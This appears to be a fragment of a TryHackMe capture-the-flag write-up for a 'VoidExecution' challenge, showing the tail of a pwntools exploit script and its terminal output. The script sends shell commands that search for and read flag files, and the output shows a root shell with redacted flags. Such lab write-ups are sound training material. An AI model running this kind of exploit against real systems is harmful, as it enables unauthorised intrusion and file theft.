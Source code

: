 ```bash
        
        log.success("Exploit sent! Attempting to interact...")
       
        # Test shell
        target.sendline(b"id")
        target.sendline(b"whoami")
        target.sendline(b"ls -la")
      
        # Look for flag  
        target.sendline(b"find / -name '*flag*' -type f 2>/dev/null")
        target.sendline(b"cat flag.txt")
        target.sendline(b"cat /flag.txt")
        target.sendline(b"cat /root/flag.txt")
        target.sendline(b"cat /home/*/flag.txt")
        
        target.interactive()

        
    except Exception as e:
        log.error(f"Exploit failed: {e}")

if __name__ == "__main__":
    exploit()
```

```bash
(rose) r...:~/VoidExecution# python3 script.py
[+] Opening connection to xx.xxx.xx.xxx on port 9008: Done
[*] Connected to xx.xxx.xx.xxx:9008
[*] Shellcode size: 74 bytes
[+] Exploit sent! Attempting to interact...
[*] Switching to interactive mode
 

voided!

uid=0(root) gid=0(root) groups=0(root)
root
total 6744
drwxr-xr-x 1 root root    4096 Mar 19 06:23 .
drwxr-xr-x 1 root root    4096 Mar 19 06:23 ..
-rwxrwxr-x 1 root root      31 Mar 19 06:04 flag.txt
-rwxrwxr-x 1 root root  240936 Mar 19 05:58 ld-linux-x86-64.so.2
-rwxrwxr-x 1 root root 6618136 Mar 19 05:58 libc.so.6
-rwxrwxr-x 1 root root   20504 Mar 19 06:02 voidexec
/sys/devices/pnp0/00:04/00:04:0/00:04:0.0/tty/ttyS0/flags
/sys/devices/platform/serial8250/serial8250:0/serial8250:0.3/tty/ttyS3/flags
/sys/devices/platform/serial8250/serial8250:0/serial8250:0.1/tty/ttyS1/flags
/sys/devices/platform/serial8250/serial8250:0/serial8250:0.2/tty/ttyS2/flags
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/proc/sys/kernel/acpi_video_flags
/proc/sys/net/ipv4/fib_notify_on_flag_change
/proc/sys/net/ipv6/fib_notify_on_flag_change
/proc/kpageflags
/home/ctf/flag.txt
THM{*************************}
THM{*************************}
$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/home/ctf
$ ll
```